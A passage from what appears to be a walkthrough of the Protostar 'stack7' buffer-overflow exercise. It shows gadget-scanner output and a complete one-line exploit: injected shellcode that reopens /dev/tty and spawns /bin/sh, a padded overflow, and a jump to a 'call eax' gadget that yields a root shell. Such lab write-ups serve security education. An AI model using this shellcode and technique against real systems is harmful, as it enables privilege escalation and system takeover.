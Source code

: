 We see that `-0x4c(%ebp)` is loaded into `$eax` right before the `ret`
instruction. This time, the binary does contain the gadget that we need.

```shell
$ /usr/share/framework2/msfelfscan -f stack7 -j eax
0x080484bf   call eax
0x080485eb   call eax
```

We use the same payload from stack 5, with the modified `call eax` instruction
which gives us successful exploitation.

```shell
user@protostar:~$ python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 22 + '\xbf\x84\x04\x08'" | /opt/protostar/bin/stack7
# whoami
root
```

[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/
